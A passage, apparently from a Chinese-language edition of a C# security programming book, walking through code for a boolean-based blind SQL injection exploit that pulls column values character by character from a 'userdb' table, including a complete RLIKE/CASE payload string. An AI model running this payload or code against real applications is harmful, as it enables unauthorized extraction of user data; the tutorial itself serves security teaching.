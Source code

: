 > 
> {
> 
> countBytes.➍Add((byte)c);
> 
> break;
> 
> }
> 
> }
> 
> }

Listing 2-49: GetLength() 方法中的第二个循环，用于检索值的实际长度

正如你在 Listing 2-49 中看到的，我们创建了一个通用的 List<byte> ➊ 来存储通过负载获取的值，以便将它们转换为整数并返回给调用者。我们遍历计数的长度时，使用 MakeRequest() ➋ 和 SQL 注入负载发送 HTTP 请求来测试值中的字节。如果响应包含“parentheses not balanced”错误 ➌，我们就知道我们的 SQL 负载评估为真。这意味着我们需要将 c 的值（确定匹配 i 的字符）作为字节 ➍ 存储，以便我们可以将 List<byte> 转换为人类可读的字符串。由于我们找到了当前字符，因此不需要再测试给定索引的计数，所以我们跳出循环，继续处理下一个索引。

现在我们需要返回计数并完成方法，如 Listing 2-50 所示。

> if (countBytes.Count > 0)
> 
> return ➊int.Parse(Encoding.ASCII.➋GetString(countBytes.ToArray()));
> 
> else
> 
> return 0;
> 
> }

Listing 2-50: GetLength() 方法中的最终行，将长度的值转换为整数并返回

一旦我们获得了计数的字节，我们就可以使用 GetString() ➋ 将收集到的字节转换为人类可读的字符串。这个字符串会传递给 int.Parse() ➊ 并返回给调用者，以便我们开始从数据库中获取实际的值。

编写 GetValue() 方法以检索给定的值

我们通过 GetValue() 方法完成了此漏洞利用，如 Listing 2-51 所示。

> private static string GetValue(int row➊, string column➋, int length➌)
> 
> {
> 
> List<byte> valBytes = ➍new List<byte>();
> 
> for (int i = 0; i <= length; i++)
> 
> {
> 
> ➎for(int c = 32; c <= 126; c++)
> 
> {
> 
> string getChar = "fdsa' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT";
> 
> getChar += " IFNULL(CAST("+column+" AS CHAR),0x20) FROM userdb ORDER BY";
> 
> getChar += " email LIMIT "+row+",1),"+i+",1))="+c+") THEN 0x28 ELSE 0x41";
> 
> getChar += " END)) AND 'YIye'='YIye";
> 
> string response = MakeRequest(getChar);
> 
> if (response.Contains(➏"parentheses not balanced"))
> 
> {